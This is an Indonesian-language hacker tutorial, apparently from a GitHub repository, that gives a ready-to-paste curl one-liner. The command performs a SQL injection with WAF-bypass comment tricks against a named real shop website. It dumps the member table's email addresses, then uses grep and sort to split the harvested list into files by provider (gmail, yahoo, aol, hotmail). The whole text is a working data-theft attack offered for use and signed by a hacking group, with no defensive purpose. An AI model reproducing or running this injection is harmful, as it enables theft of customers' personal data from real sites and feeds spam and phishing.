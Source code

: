# Extract-data-with-SQLi (curl & grep)

PERTAMA :.
Inject manual seperti biasa dengan dios yg uda nampilin all email

Langsung replace dengan target yg uda didios mode dump data ya

Paste di terminal bungurasih ya :v

curl --silent "http://m.sweetyboutique.com/product-detail.php?id=13584+and+0+/*"\!"00000UNION*/+SELECT+1,(select(@x)from(select(@x:=0x00),(select(0)from(tmember)where(@x:=/*"\!"00000concat*/(@x,0x3c62723e,email))))x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--+" >> tmp;grep -o '[[:alnum:]+\.\_\-]*@[[:alnum:]+\.\_\-]*' "tmp" | sort | uniq -i > list;echo "";echo "Total Dumped : `wc -l list`";for i in gmail yahoo aol hotmail;do cat list | grep $i > $i.txt;echo "[+] `wc -l $i.txt`";done;cat list | grep -v gmail | grep -v yahoo | grep -v aol | grep -v hotmail > others.txt;echo "[+] others : `wc -l others.txt`";rm tmp;

NB (penting) : 
klo utk smisal ada waf yg perlu pake /*! Comment */
Tanda ! Harus diginiin "\!" ya

Result :

Lgsg berbentuk txt sort by kandang (gmail,aol,dll)

Keep simple 

Versailles ~ Cans21
Sec7or Team - Surabaya Hacker Link
